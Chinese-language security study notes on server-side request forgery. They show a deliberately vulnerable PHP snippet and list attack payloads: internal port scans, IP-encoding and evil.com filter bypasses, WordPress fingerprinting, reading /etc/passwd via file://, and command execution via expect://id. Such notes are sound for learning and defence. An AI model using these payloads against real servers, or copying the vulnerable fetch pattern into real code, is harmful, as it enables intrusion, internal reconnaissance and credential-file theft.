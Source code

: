 ## 9. SSRF
#SSRF
Server-Side Request Forgery 服务器端请求伪造（内网渗透）
### 9.1 形成
攻击者利用漏洞伪造服务器端发起请求，从而突破了客户端获取不到的数据限制，如内网资源、服务器本地资源等
```php
<?php
	$url=$_GET['url'];
	echo file_get_contents($url);
?>
```
对于上述代码构造payload：`http://example.com/ssrf.php?url=http://192.168.252.1:8000`可以检测内网主机HTTP服务8000端口的开放情况
### 9.2 防护绕过
经常通过正则表达式实现以下防护
- 限制请求特定的域名
- 禁止请求内网IP
可使用以下方法绕过
1. 使用`http://example.com@evil.com`这种格式绕过正则
2. IP地址转为进制（八、十、十六）及IP地址的省略写法
	- 0177.00.00.01（八进制）
	- 2130706433（十进制）
	- 0x7f.0x0.0x0.0x1（十六进制）
	- 127.1（省略写法）
	- 以上方法均表示127.0.0.1
3. 配置域名
如果手中有可控域名，可将域名A记录指向欲请求的IP绕过防护
`eval.example.com => 10.0.18.3`
### 9.3 危害与利用技巧
#### 9.3.1 [[常见端口|端口]]扫描
`http://example.com/ssrf.php?url=http://192.168.252.1:21`
`http://example.com/ssrf.php?url=http://192.168.252.1:22`
`http://example.com/ssrf.php?url=http://192.168.252.1:80`
`http://example.com/ssrf.php?url=http://192.168.252.1:443`
`http://example.com/ssrf.php?url=http://192.168.252.1:3306`
可通过应用响应时间、返回的错误信息、返回的服务Banner来判断端口是否开放
#### 9.3.2 攻击内网或本地存在漏洞的服务
如对HTTP发送的数据是否能被其他服务协议接收存在疑问，可参考Freebuf上的文章[[跨协议通信技术利用|《跨协议通信技术利用》]]
**Gopher协议**
详见[[利用 Gopher 协议拓展攻击面|《利用 Gopher 协议拓展攻击面》]]
#### 9.3.3 对内网Web应用进行指纹识别及攻击其中存在漏洞的应用
大多Web应用都有独特的文件和目录，通过这些文件可以识别出应用的类型，甚至详细的版本。以下payload可以识别主机是否安装了WordPress
`http://example.com/ssrf.php?url=http%3A%2F%2F127.0.0.1%3A8080%2Fwp-content%2Fthemes%2Fdefault%2Fimages%2faudio.jpg`
得到指纹后，便能有针对性地对其存在的漏洞进行利用
#### 9.3.4 文件读取
如果攻击者指定了file协议则可通过file协议来读取服务器上的文件内容
`http://example.com/ssrf.php?url=file:///etc/passwd`
#### 9.3.5 命令执行
PHP环境下如果安装了expect扩展还可以通过expect协议执行系统命令
`http://example.com/ssrf.php?url=expect://id`